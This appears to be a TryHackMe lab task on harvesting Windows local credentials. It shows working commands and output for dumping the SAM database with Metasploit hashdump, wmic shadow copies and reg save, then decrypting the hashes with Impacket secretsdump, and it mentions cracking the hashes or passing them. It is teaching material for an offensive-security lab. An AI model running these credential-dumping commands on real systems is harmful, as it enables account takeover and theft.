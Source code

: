
## General

In general, Windows operating system provides two types of user accounts: Local and Domain. Local users' details are stored locally within the Windows file system, while domain users' details are stored in the centralized Active Directory. This task discusses credentials for local user accounts and demonstrates how they can be obtained.

## Keystrokes
Keylogger is a software or hardware device to monitor and log keyboard typing activities. Keyloggers were initially designed for legitimate purposes such as feedback for software development or parental control. However, they can be misused to steal data. As a red teamer, hunting for credentials through keyloggers in a busy and interactive environment is a good option. If we know a compromised target has a logged-in user, we can perform keylogging using tools like the Metasploit framework or others.

We have a use case example for exploiting users via keystrokes using Metasploit in another THM room. For more information, you should check THM [Exploiting AD](https://tryhackme.com/room/exploitingad) (Task 5). 

## Security Account Manager (SAM)

The SAM is a Microsoft Windows database that contains local account information such as usernames and passwords. The SAM database stores these details in an encrypted format to make them harder to be retrieved. Moreover, it can not be read and accessed by any users while the Windows operating system is running. However, there are various ways and attacks to dump the content of the SAM database. 

First, ensure you have deployed the provided VM and then confirm we are not able to copy or read  the `c:\Windows\System32\config\sam` file:

Confirming No Access to the SAM Database

```shell-session
C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\ 
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
```

## Metasploit's HashDump
The first method is using the built-in Metasploit Framework feature, hashdump, to get a copy of the content of the SAM database. The Metasploit framework uses in-memory code injection to the LSASS.exe process to dump copy hashes.

Dumping the SAM database content

```shell-session
meterpreter > getuid
Server username: THM\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:443e64439a4b7fe780db47fc06a3342d:::
```

## Volume Shadow Copy Service
The other approach uses the Microsoft Volume shadow copy service, which helps perform a volume backup while applications read/write on volumes. You can visit the [Microsoft documentation page](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) for more information about the service.

More specifically, we will be using wmic to create a shadow volume copy. This has to be done through the command prompt with **administrator privileges** as follows,

1.  Run the standard cmd.exe prompt with administrator privileges.
2.  Execute the wmic command to create a copy shadow of C: drive
3.  Verify the creation from step 2 is available.
4.  Copy the SAM database from the volume we created in step 2

Now let's apply what we discussed above and run the cmd.exe with administrator privileges. Then execute the following wmic command:

Creating a Shadow Copy of Volume C with WMIC

```shell-session
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
};
```

Once the command is successfully executed, let's use the `vssadmin`, Volume Shadow Copy Service administrative command-line tool, to list and confirm that we have a shadow copy of the `C:` volume. 

Listing the Available Shadow Volumes

```shell-session
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

The output shows that we have successfully created a shadow copy volume of (C:) with the following path: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`. 

As mentioned previously, the SAM database is encrypted either with [RC4](https://en.wikipedia.org/wiki/RC4) or [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encryption algorithms. In order to decrypt it, we need a decryption key which is also stored in the files system in `c:\Windows\System32\Config\system`. 

Now let's copy both files (sam and system) from the shadow copy volume we generated to the desktop as follows,

Copying the SAM and SYSTEM file from the Shadow Volume

```shell-session
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```

Now we have both required files, transfer them to the AttackBox with your favourite method (SCP should work). 

## Registry Hives
Another possible method for dumping the SAM database content is through the Windows Registry. Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save the value of the Windows registry using the reg.exe tool. As previously mentioned, we need two files to decrypt the SAM database's content. Ensure you run the command prompt with Administrator privileges.

Save SAM and SYSTEM files from the registry

```shell-session
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>
```

Let's this time decrypt it using one of the Impacket tools: `secretsdump.py`, which is already installed in the AttackBox. The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques.

Move both SAM and system files to the AttackBox and run the following command:

Decrypting SAM Database using Impacket SecretsDump Script Locally

```shell-session
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Note that we used the SAM and System files that we extracted from Windows Registry. The `-sam` argument is to specify the path for the dumped sam file from the Windows machine. The `-system` argument is for a path for the system file. We used the `LOCAL` argument at the end of the command to decrypt the Local SAM file as this tool handles other types of decryption. 

Note if we compare the output against the NTLM hashes we got from Metasploit's Hashdump, the result is different. The reason is the other accounts belong to Active Directory, and their information is **not** stored in the System file we have dumped. To Decrypt them, we need to dump the SECURITY file from the Windows file, which contains the required files to decrypt Active Directory accounts.

Once we obtain NTLM hashes, we can try to crack them using Hashcat if they are guessable, or we can use different techniques to impersonate users using the hashes.
